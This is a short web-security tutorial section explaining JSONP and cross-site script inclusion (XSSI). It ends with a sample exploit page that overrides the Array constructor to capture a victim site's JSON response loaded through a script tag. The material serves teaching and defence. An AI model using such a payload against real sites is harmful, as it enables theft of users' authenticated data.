 # 7.1 XSSI Overview

A JSON vulnerability allows third party website to turn your JSON resource URL into JSONP request under some conditions.
Exposed when a GET request is made to retrieve JSON information as an array. Combined to a CSRF attack.

## What is JSONP ?

JSONP means JSON with Padding or Prefix, is a technique created before the CORS which allows GET requests to bypass
same-origin policy.
The same-origin policy does not prevent execution of external `<script>` tags.
The JSON is wrapped inside a function which allows the data to be loaded in a `<script>` element as an ordinary JavaScript.

``` typescript
callbackFunction({
  payload: {
    username: 'ben',
    session_id: '123'
  }
})

```

``` typescript
<script>
  function callbackFunction(userData) {
      console.log(userData.payload.username);
   }
</script>
<script src="http://api.example.com/userdata.jsonp?callback=callbackFunction"></script>
```

## How XSSI works ?

1. Cross-domain HTTP requests is possible via the `src` attribute of `<script>` tag
1. Your browser sends your credential automatically
1. Returning a JSON array is valid as the source for a JavaScript `<script>` tag
1. JavaScript allows us to redefine the Array constructor

Sample Exploit:

``` typescript
<script type="text/javascript">
    var secrets;
    Array = function() {
        secrets = this;
    };
</script>

<script src="http://victim.com/demos/secret-info.json" type="text/javascript"></script>

<script type="text/javascript">
    var yourData = '';
    var i = -1;
    while(secrets[++i]) {
        yourData += secrets[i] + ' ';
    }
    alert('I stole your data, I can exploit it / send it to another server : ' + yourData);
</script>
```

